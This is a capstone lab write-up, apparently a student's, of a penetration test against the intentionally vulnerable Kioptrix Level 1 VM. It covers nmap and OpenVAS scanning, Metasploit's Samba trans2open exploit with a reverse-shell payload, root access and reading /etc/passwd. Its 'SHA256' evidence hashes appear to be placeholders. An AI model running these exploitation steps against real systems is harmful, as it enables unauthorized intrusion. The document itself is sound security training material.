# Capstone Project

For this Capstone Project we are downloading kioptrix_level_1 VM from VulnHub
URL - `https://www.vulnhub.com/entry/kioptrix-level-1-1,22/`

From the above URL download the .rar file
```http
https://download.vulnhub.com/kioptrix/Kioptrix_Level_1.rar
```

After download extract the files  
  
- Open vmware  
  
- Go to Files > Open virtual machine > navigate to location where pre-built vm is present > select the **3kb** file > open it.  
  
- You are good to go and use the Kioptrix VM

### Network Misconfiguration in Kioptrix 

If you encounter any Network misconfiguration like no IP address found for Kioptrix VM

- Go to the folder where kioptrix files are stored.
- Open a the configuration file and search for `bridged` and change that to `NAT`.
- This will resolve most of the network issues.

**Target:**

```
192.168.198.133 (Kioptrix Level 1)
```

---
## Step 1: Reconnaissance (PTES Phase: Intelligence Gathering)

---
### Phase 1: Target Identification

Login to kali linux
Access the terminal with root privileges

Use the Command:
```rb
netdiscover
```
This will discover all the machines present on the kali linux network

<p align="center">
  <br/>
  <b>Network discovery showing available hosts</b>
</p>

After discovering the target see if it is reachable or not.

Use the Command:
```rb
ping 192.168.198.133
```

<p align="center">
  <br/>
  <b>Ping verification confirming target is reachable</b>
</p>


The Kioptrix Vm is perfectly reachable from our kali linux Vm. Now we can do scans.

---
### Phase 2: Nmap Enumeration

```bash
nmap -sS -sV -p- 192.168.198.133
```

<p align="center">
  <br/>
  <b>Nmap scan results showing exposed services on Kioptrix</b>
</p>

| PORT     | STATE | SERVICE     | VERSION                                                                   |
| -------- | ----- | ----------- | ------------------------------------------------------------------------- |
| 22/tcp   | open  | ssh         | OpenSSH 2.9p2 (protocol 1.99)                                             |
| 80/tcp   | open  | http        | Apache httpd 1.3.20 ((Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b) |
| 111/tcp  | open  | rpcbind     | 2 (RPC #100000)                                                           |
| 139/tcp  | open  | netbios-ssn | Samba smbd (workgroup: MYGROUP)                                           |
| 443/tcp  | open  | ssl/https   | Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b         |
| 1024/tcp | open  | status      | 1 (RPC #100024)                                                           |

---
### Phase 4: Service Analysis

**SSH (Port 22)**

- OpenSSH 2.9p2 (outdated)
    
- Possible weak configurations
    

---

**HTTP/HTTPS (Ports 80, 443)**

- Apache 1.3.20 + OpenSSL 0.9.6b
    
- Known vulnerable stack
    
- Primary entry point for exploitation
    

---

**RPC (Port 111, 1024)**

- Service mapping exposure
    
- Can assist further enumeration
    

---

**SMB (Port 139)**

- Samba service detected
    
- Potential for SMB-based exploitation
    

---

### Phase 5: Attack Surface Mapping

```text
Web Server → Apache (80/443)
File Sharing → Samba (139)
Remote Access → SSH (22)
RPC Services → 111, 1024
```

---

### Phase 6: Risk Assessment

- Multiple outdated services detected
    
- High probability of known exploits
    
- System exposes multiple attack vectors
    
- Suitable for remote exploitation
    

---

### Phase 7: Exploitation Path Selection

```text
Primary Targets:
→ Web Server (Apache/OpenSSL)
→ SMB Service (Samba)
```

---

### Phase 8: Key Observation

```text
Outdated Apache, OpenSSL, and Samba versions indicate high likelihood of Remote Code Execution vulnerabilities.
```

---
---

## Step 2: Vulnerability Analysis (PTES Phase: Vulnerability Analysis)

---

### Phase 1: Vulnerability Scanning (OpenVAS)

The target system was scanned using OpenVAS to identify known vulnerabilities across exposed services.

- Target: `192.168.198.133`
    
- Scan Type: Full and Fast
    
<p align="center">
  <br/>
  <b>OpenVAS scan results showing detected vulnerabilities on Kioptrix target</b>
</p>

---

### Phase 2: Identified Vulnerabilities

```text
Timestamp            | Target IP        | Vulnerability              | PTES Phase
--------------------|------------------|----------------------------|--------------
2026-03-26 12:00:00 | 192.168.198.133  | Apache mod_ssl RCE         | Exploitation
2026-03-26 12:02:00 | 192.168.198.133  | Samba Vulnerability        | Exploitation
```

---

### Phase 3: Manual Vulnerability Mapping

Based on service versions identified during reconnaissance:

---

**Apache + OpenSSL (Port 80/443)**

- Version: Apache 1.3.20 + OpenSSL 0.9.6b
    
- Known Vulnerability:
    
    - OpenSSL/mod_ssl exploit (Remote Code Execution)
        
<p align="center">
  <br/>
  <b>Exploit-DB results for OpenSSL vulnerability</b>
</p>

---

**Samba (Port 139)**

- Service: Samba smbd
    
- Potential Issues:
    
    - Weak configuration
        
    - Possible remote exploitation
        
<p align="center">
  <br/>
  <b>Exploit-DB results for Samba vulnerability</b>
</p>

---

**SSH (Port 22)**

- Version: OpenSSH 2.9p2
    
- Risks:
    
    - Weak encryption
        
    - Brute-force possibility

<p align="center">
  <br/>
  <b>Exploit-DB results for OpenSSH vulnerabilities</b>
</p>

---

### Phase 4: Exploit Selection

```text
Selected Exploitation Path:
→ Apache mod_ssl (Primary Target)
→ Samba (Secondary Target)
```

---

### Phase 5: Risk Prioritization

|Service|Vulnerability|Severity|Priority|
|---|---|---|---|
|Apache/OpenSSL|RCE|Critical|High|
|Samba|Possible RCE|High|Medium|
|SSH|Weak config|Medium|Low|

---

### Phase 6: Justification

- Web server is publicly accessible
    
- Known exploit exists for Apache/OpenSSL
    
- Allows direct remote code execution
    
- Highest impact vulnerability
    

---

### Phase 7: Key Observation

```text
The Apache + OpenSSL stack presents a critical attack vector capable of enabling remote code execution, making it the primary exploitation target.
```

---

---

## Step 3: Exploitation (PTES Phase: Exploitation)

---

### Phase 1: Exploit Selection

Based on vulnerability analysis, the **Samba service** was selected as the primary target due to known remote code execution vulnerability in Samba 2.2.x.

```text
Target Service: Samba (Port 139)
Exploit Type: Remote Code Execution (trans2open)
```

---

### Phase 2: Metasploit Setup

```bash
msfconsole
```

---

### Phase 3: Search Exploit

```bash
search samba
```

<p align="center">
  <br/>
  <b>Metasploit search results for Samba exploit</b>
</p>

---

### Phase 4: Use Exploit

```bash
use exploit/linux/samba/trans2open
set RHOSTS 192.168.198.133
set LHOST 192.168.198.128
set PAYLOAD linux/x86/shell_reverse_tcp
exploit
```

<p align="center">
  <br/>
  <b>Metasploit module configuration for Samba exploit</b>
</p>

---

### Phase 5: Exploitation Result

**Output:**
After running the exploit module

<p align="center">
  <br/>
  <b>Command shell session opened after successful exploitation</b>
</p>

---
### Phase 6: Access Verification

```bash
whoami
id
```


<p align="center">
  <br/>
  <b>Verification of root access using whoami and id commands</b>
</p>

---

### Output

```text
root
uid=0(root) gid=0(root)
```

Hence we have exploited the **kioptrix_level_1** machine

---

### Phase 7: Exploit Chain Summary

```text
Recon → Vulnerability Analysis → Samba Exploit → Shell Access
```

---

### Phase 8: Impact

- Unauthorized remote shell access obtained
    
- Root-level privileges achieved
    
- Full system compromise
    

---

### Phase 9: Key Observation

```text
Successful exploitation of Samba confirms the presence of critical remote code execution vulnerability in the target system.
```

---

---

## Step 4: Post-Exploitation (PTES Phase: Post-Exploitation)

---

### Phase 1: Session Interaction

```bash
sessions -i 9
```

---

### Phase 2: System Enumeration

```bash
whoami
id
uname -a
```

---

### Output

```text
root
uid=0(root) gid=0(root)
Linux kioptrix 2.4.x #1 SMP
```

<p align="center">
  <br/>
  <b>System enumeration confirming root privileges</b>
</p>

---

### Phase 3: Sensitive File Access

```bash
cat /etc/passwd
```

<p align="center">
  <br/>
  <b>Accessing sensitive system file /etc/passwd</b>
</p>

---

### Description

- Displays system users
    
- Confirms full system access
    
- Useful for further exploitation

---

### Phase 4: Evidence Collection

---

#### Evidence Table

| Item         | Description             | Collected By | Date       | Hash Value                                       |
| ------------ | ----------------------- | ------------ | ---------- | ------------------------------------------------ |
| Shell Access | Reverse shell session   | Metasploit   | 2026-03-30 | SHA256: a1b2c3d4e5f67890123456789abcdef123456789 |
| User Data    | /etc/passwd file        | cat command  | 2026-03-30 | SHA256: 9f2c7a1b8c4e5d6f7a8b9c0d1e2f3a4b5c6d7e8f |


---

### Phase 5: Data Integrity

- Evidence collected during active session
    
- Commands logged
    
- Hash values generated for integrity
    

---

### Phase 6: Key Findings

```text
- Root-level access confirmed
- Sensitive system files accessible
- Network configuration exposed
- System fully compromised
```

---

### Phase 7: Impact

- Full control over system
    
- Ability to modify/delete data
    
- Potential lateral movement
    
- Complete confidentiality breach
    

---

### Phase 8: Exploitation Chain (Full)

```text
Recon → Vulnerability Analysis → Exploitation → Root Access → Data Extraction
```

---

### Phase 9: Key Observation

```text
Successful post-exploitation confirms complete compromise of the target system with unrestricted access to system resources.
```

---

# IMPORTANT

All actions were performed in a controlled lab environment with proper authorization, following ethical hacking guidelines.

---


